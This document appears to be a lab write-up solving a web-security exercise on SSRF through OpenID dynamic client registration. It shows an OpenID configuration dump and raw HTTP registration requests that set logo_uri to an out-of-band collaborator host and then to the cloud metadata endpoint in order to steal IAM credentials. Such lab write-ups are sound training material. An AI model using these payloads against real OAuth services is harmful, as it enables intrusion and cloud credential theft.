






# SSRF via OpenID dynamic client registration
# Objective
This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website uses OAuth to allow users to log with their social account.

||
|:--:| 
| *OAuth login - OpenID scope* |
||
| *OpenId configuration - Registration endpoint disclosure* |
||
| *Application logo* |

OpenID configuration:
```json
{
  "authorization_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/auth",
  "claims_parameter_supported": false,
  "claims_supported": [
    "sub",
    "name",
    "email",
    "email_verified",
    "sid",
    "auth_time",
    "iss"
  ],
  "code_challenge_methods_supported": [
    "S256"
  ],
  "end_session_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/session/end",
  "grant_types_supported": [
    "authorization_code",
    "refresh_token"
  ],
  "id_token_signing_alg_values_supported": [
    "HS256",
    "ES256",
    "EdDSA",
    "PS256",
    "RS256"
  ],
  "issuer": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net",
  "jwks_uri": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/jwks",
  "registration_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/reg",
  "response_modes_supported": [
    "form_post",
    "fragment",
    "query"
  ],
  "response_types_supported": [
    "code"
  ],
  "scopes_supported": [
    "openid",
    "offline_access",
    "profile",
    "email"
  ],
  "subject_types_supported": [
    "public"
  ],
  "token_endpoint_auth_methods_supported": [
    "none",
    "client_secret_basic",
    "client_secret_jwt",
    "client_secret_post",
    "private_key_jwt"
  ],
  "token_endpoint_auth_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "token_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/token",
  "request_object_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "request_parameter_supported": false,
  "request_uri_parameter_supported": true,
  "require_request_uri_registration": true,
  "userinfo_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/me",
  "userinfo_signing_alg_values_supported": [
    "HS256",
    "ES256",
    "EdDSA",
    "PS256",
    "RS256"
  ],
  "introspection_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/token/introspection",
  "introspection_endpoint_auth_methods_supported": [
    "none",
    "client_secret_basic",
    "client_secret_jwt",
    "client_secret_post",
    "private_key_jwt"
  ],
  "introspection_endpoint_auth_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "revocation_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/token/revocation",
  "revocation_endpoint_auth_methods_supported": [
    "none",
    "client_secret_basic",
    "client_secret_jwt",
    "client_secret_post",
    "private_key_jwt"
  ],
  "revocation_endpoint_auth_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "claim_types_supported": [
    "normal"
  ]
}
```


## Exploitation
Attacker can conduct SSRF attack via `logo_uri` by registering custom client application with `logo_uri` pointing to the target site.

||
|:--:| 
| *Successful custom client application registration* |
||
| *Successful custom client application registration with logo_uri* |
||
| *SSRF - request to logo_uri - access to secret file* |

Payload to verify out of band connectivity:
```
POST /reg HTTP/2
Host: oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net
Cookie: _interaction_resume=mJNt9AzUQ9HIoPe7e57xA; _session=J7M94To7dA4LGPyhh6lRd; _session.legacy=J7M94To7dA4LGPyhh6lRd
Content-Type: application/json
Content-Length: 135

{
    "redirect_uris" : [
        "https://test.test"
    ],
    "logo_uri" : "https://<id>.oastify.com"
}


GET /client/<Client_ID>/logo
[...]
```

Final payload:
```
POST /reg HTTP/2
Host: oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net
Cookie: _interaction_resume=mJNt9AzUQ9HIoPe7e57xA; _session=J7M94To7dA4LGPyhh6lRd; _session.legacy=J7M94To7dA4LGPyhh6lRd
Content-Type: application/json
Content-Length: 135

{
    "redirect_uris" : [
        "https://test.test"
    ],
    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}


GET /client/<Client_ID>/logo
```
